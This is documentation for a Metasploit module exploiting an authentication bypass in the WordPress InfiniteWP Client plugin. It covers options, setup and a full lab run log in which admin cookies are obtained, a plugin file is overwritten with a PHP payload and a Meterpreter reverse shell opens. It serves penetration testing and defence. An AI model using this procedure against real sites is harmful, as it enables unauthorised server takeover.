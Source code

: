 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

### Setup

Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
and follow <https://wordpress.org/plugins/iwp-client/#installation>.

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4

```
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C44ecac44335ad633ea98045a7085c4947fee015b700b8b7d9463dd44d2388bb2; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C240d956e7a43f2ed3193171df429c8a8fb9ba3bac2f9805cdf88789f90a186df;
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58534) at 2020-01-18 14:50:39 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 4e8791809581
OS          : Linux 4e8791809581 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
